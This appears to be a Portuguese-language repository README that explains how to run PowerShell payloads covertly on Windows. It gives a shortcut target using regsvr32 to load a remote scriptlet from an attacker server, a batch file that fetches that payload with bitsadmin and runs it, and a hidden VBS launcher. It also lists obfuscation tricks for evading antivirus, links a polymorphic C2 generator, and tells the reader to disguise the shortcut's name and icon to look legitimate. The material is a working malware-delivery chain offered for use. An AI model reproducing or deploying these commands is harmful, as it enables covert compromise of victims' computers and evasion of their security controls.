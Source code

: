 # Técnica de Execução Stealth para Scripts PowerShell

Este repositório demonstra técnicas avançadas para executar scripts PowerShell de maneira furtiva, contornando controles de segurança comuns. A implementação utiliza binários legítimos do Windows, transferência de arquivos em segundo plano e ofuscação para evitar detecção.

## Visão Geral

Esta técnica pode ser implementada de várias formas, incluindo o uso do regsvr32.exe para scriptlets (.sct) ou utilizando BITS (Background Intelligent Transfer Service), um serviço legítimo do Windows usado para downloads em segundo plano.

## Gerar o C2 em PS1
https://github.com/ticofookfook/C2-polimorfico

## Componentes e Técnicas

### 1. Técnica baseada em regsvr32 (SCT)

O ponto de entrada é um atalho do Windows com as seguintes propriedades:
```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
````

###O arquivo SCT (Scriptlet) contém código JScript ofuscado com múltiplas técnicas de evasão.

Execução via script BAT e VBS
### Criar arquivo batch
```
@echo off
rem Executar silenciosamente
bitsadmin /transfer myDownloadJob /download /priority high http://[ip-servidor]/[nome-script].sct "%TEMP%\data.tmp" > nul
regsvr32 /s /u /i:"%TEMP%\data.tmp" scrobj.dll
exit
```
```
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "cmd.exe /c ""%TEMP%\config.bat""", 0, False
```

###3. Técnicas de Evasão
A implementação usa múltiplas camadas de evasão:

Inversão de Strings: Strings como "powershell.exe" são armazenadas invertidas

Conversão de Código de Caracteres: Strings críticas construídas a partir de códigos ASCII

Expansão de Variáveis de Ambiente: Construção dinâmica de caminhos do sistema

Uso de Serviços Legítimos: BITS é um componente do Windows usado para Windows Update

4. Cadeia de Execução
A cadeia completa de execução usando BITS:

Usuário clica no atalho

wscript.exe executa o .vbs em segundo plano

O .vbs chama cmd.exe para rodar o .bat sem exibição de janela

O batch executa o bitsadmin para baixar o payload

regsvr32 carrega o payload baixado

Conteúdo é executado sem criar janelas visíveis

###Uso
Hospede o arquivo .sct em um servidor HTTP

Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor

Crie o atalho para o script VBS em vez do BAT

O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

Detalhes Técnicos
BITSAdmin
Ferramenta nativa do Windows para gerenciar o serviço BITS

Raramente bloqueada por soluções de segurança por ser essencial para o Windows Update

Permite downloads em segundo plano com alta confiabilidade

regsvr32
/s: Execução silenciosa (sem diálogos)

/u: Desregistra componente (usado como parte da técnica)

/i:<URL>: Especifica o script a ser carregado

scrobj.dll: O Script Component Runtime que processa o scriptlet

Considerações de Segurança
Esta técnica é eficaz em contornar controles de segurança porque:

Utiliza binários confiáveis do Windows (técnica living-off-the-land)

BITS é um serviço essencial raramente bloqueado

Comandos fragmentados e ofuscados previnem detecção

A execução ocorre totalmente em segundo plano sem janelas visíveis

Utiliza métodos de transferência legítimos usados pelo próprio Windows
